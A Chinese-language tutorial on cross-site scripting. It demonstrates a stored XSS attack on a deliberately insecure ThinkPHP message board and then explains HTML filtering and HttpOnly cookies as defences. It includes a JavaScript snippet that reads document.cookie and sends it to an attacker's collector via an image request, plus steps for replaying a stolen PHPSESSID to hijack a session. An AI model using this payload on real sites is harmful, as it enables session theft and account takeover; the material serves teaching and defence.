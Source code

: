 # XSS攻击

XSS（Cross Site Scripting）跨站脚本攻击，是存在于很多老旧应用系统中，原理简单但危害很大的攻击形式。我们这里对XSS攻击进行介绍和演示。

注：这里其实仅仅是演示原理，在较新的系统中，由于各种框架都有考虑安全性，而且现在的开发人员安全意识比老程序员高得多，真正发现一个XSS漏洞是很难的（通常是间接性的），以下例子使用ThinkPHP5.x编写，框架本身是很安全的，但我们故意做了若干不安全的设置，否则几乎无法实现XSS。

## 原理演示

### 环境搭建

假设我们现在有如下图这样一个应用系统，运行于`localhost:80`，它包含一个功能「留言板」，用户登录后可以访问所有的留言，以及发表留言，该功能的输入框具有XSS漏洞。

![](res/1.png)

![](res/2.png)

当然，该应用系统还有许多其它的涉及隐私，或是涉及金钱的服务，任何人都可以免费注册该网站，但现在攻击者想要窃取其它用户的登录状态，以便转移受害者的资产。

### 注入脚本

我们知道Ajax有个鸡肋的特性就是请求不能跨域，但这个特性除了阻碍我们开发以外没什么其他作用，它根本拦不住我们用其它歪门邪道的方式发起跨域请求。

以下代码的作用是获取浏览器中的Cookie，并创建一个`<img>`标签，向我们运行在`localhost:8080`的攻击系统发送数据。`upload.php`负责接收数据并存入数据库。

```javascript
var token = document.cookie;
var img = document.createElement('img');
img.src = 'http://localhost:8080/upload.php?token=' + token;
document.appendChild(img);
```

我们使用`<script>`标签包裹注入的脚本，由于被攻击的应用系统存在XSS漏洞，这段代码会被其他用户的浏览器执行，把自己的Cookie发送出去。

![](res/3.png)

### 其他用户访问

当其他用户访问这个页面时，并不会看到任何`<img>`，但是他们的登录状态已经在不经意间泄漏了。

![](res/4.png)

### 攻击者设置Cookie并登录

我们现在已经拿到了Cookie，`upload.php`为我们保存在了数据库中，如图所示。

![](res/5.png)

我们要做的就是把`PHPSESSID`设置到浏览器中。

![](res/6.png)

注：Firefox手动添加、编辑Cookie很方便，Chrome好像没有这个功能，只能通过代码创建。

这里我们就跳过了登录，直接利用其它人的`PHPSESSID`进入系统了。

![](res/7.png)

## 防范XSS

实际上，使用现代的框架和技术，就上面这样一个最简单的留言板应用系统，不「特殊修改」一下想写出XSS漏洞都很难，但这不代表业务逻辑变得复杂后，我们写的系统就是安全的，我们可能在实现某个特殊需求时，不经意间就写下了一个隐蔽的漏洞，但原理和上面都是相通的。

### HTML过滤

防范XSS最直接的办法是HTML标签过滤，如果上面我们的浏览版页面过滤了用户输入，让`<script>`这种标签无法起效，注入的脚本也就不会在其他用户的浏览器中执行了。

实际上，ThinkPHP模板引擎默认就会在显示时过滤HTML标签，例如`{$msg}`，假如`msg`中包含文本`<script>`，它只会转义并原样输出。除此之外，我们也可以在用户输入提交数据库前，对非法字符进行过滤。

![](res/8.png)

注：仅适用HTML过滤可能并不是最保险的方式，网上有很多针对某种过滤规则，声称能绕过过滤的方法，也有些过滤库声称能100%杜绝XSS，但不怕一万就怕万一。

### HttpOnly标记

HTTP协议支持`HttpOnly`标记，假如浏览器实现上没有任何bug，它能保证JavaScript无法以任何方式读取`HttpOnly`的Cookie，只有HTTP请求才能带上Cookie，这个基本杜绝了窃取`sessionId`形式的XSS，默认PHP的`PHPSESSID`就是`HttpOnly`的，之前我们演示的程序如果不手动把`HttpOnly`去掉是根本不可能被攻击成功的。

尽管如此，我们仍不排除有些网站会用非`HttpOnly`记录一些其它有价值的数据，除此之外，前后端分离开发时（Vue/React/Angular）一定要留心，很多新手开发者为了和移动客户端的登录机制兼容，需要手动设置一个`Cookie`存储登录凭证而忘记了`HttpOnly`，此外存储在`Local Storage`、`Session Storage`、`IndexedDB`、`WebSQL`中也没有任何XSS保护，在HTML标准于安全方面变的更加完善之前，像登录凭证这种数据不应出现在这些地方。
